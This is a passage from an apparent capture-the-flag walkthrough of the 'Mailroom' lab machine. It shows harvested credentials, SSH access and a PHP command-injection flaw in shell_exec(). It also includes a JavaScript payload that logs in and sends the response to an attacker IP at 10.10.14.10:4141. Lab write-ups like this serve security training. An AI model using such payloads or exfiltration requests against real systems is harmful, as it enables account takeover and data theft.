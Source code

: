 **Creds:** `tristan:tristan@mailroom.htb:69trisRulez!`

And we can log in to ssh using -> `tristan:69trisRulez!` and get shell in the mailroom host machine.

### shell #1 - Host as tristan

* There is 1 more user on the box -> `matthew`
* A keepass database file (`.kdbx`) in `/home/matthew/personal.kdbx`
* `kpcli` tool is installed
* Docker is installed
* And web applications are running from docker containers
* mail directory has user "tristan" mails -> `/var/mail/tristan`

## Command Injection

Back to the staffroom source code, when we logged in, it send login token to that user's email, which now we can access.

![](screenshots/tristan-mail-1.png)

And after login, we can access to, `staffroom/inspect.php` via `http://staff-review-panel.mailroom.htb/inspect.php` and here user input form `inquiry_id` param directly inserted in to `shell_exec()` PHP function which caused command injection using backticks (`).
```php
if (isset($_POST['inquiry_id'])) {
  $inquiryId = preg_replace('/[\$<>;|&{}\(\)\[\]\'\"]/', '', $_POST['inquiry_id']);
  $contents = shell_exec("cat /var/www/mailroom/inquiries/$inquiryId.html");
```

1. login to `tristan@mailroom.htb:69trisRulez!` account.

```js
var req1 = new XMLHttpRequest();
req1.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", false);
req1.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
const data = "email=tristan@mailroom.htb&password=69trisRulez!";
req1.send(data);
var resp = req1.response;

var req2 = new XMLHttpRequest();
req2.open("POST", "http://10.10.14.10:4141/", false);
req2.setRequestHeader("Content-Type", "text/plain");
req2.send(resp);
```

2. Get auth token from `var/mail/tristan` via ssh.
